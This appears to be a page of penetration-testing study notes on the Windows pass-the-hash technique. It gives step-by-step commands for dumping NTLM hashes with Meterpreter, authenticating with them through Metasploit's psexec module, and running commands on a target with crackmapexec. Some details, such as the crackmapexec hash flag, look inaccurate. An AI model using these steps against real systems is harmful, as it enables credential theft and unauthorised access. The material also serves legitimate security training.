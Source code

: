 
### Pass the Hash Attack

* Pass the hash exploitation technique can be used to harvest and authenticate into windows systems legitimately
* Tools
    * Metasploit psexec module
    * crackmapexec
* This will use legitimate auth with SMB
* This is a persistence technique allowing access to victim even if it is patched
* Option 1: Open msfconsole
    * Harvest NTLM hashes by following above steps
    * This attack needs both LM and NTLM hashes
    * hashdump
        * This will dump all LM hashes along with NTLM hashes
            * Format user:rid:lm_hash:ntlm_hash
            * lm_hash is same for all users
    * Send meterpreter to background using ctrl+z
    * Use exploit/windows/smb/psexec
    * Set rhosts; set lport: set SMBUser; set SMBPass lm_hash:ntlm_hash; exploit
        * If meterpreter session is not returned
        * Try changing the target
            * Show target -> lists all the available target
            * Use a different one
            * The demo video used the set target Native\ upload to get a success result
* Option 2: crackmapexec smb target_ip -u user -h ntlm_hash -x “whoami”
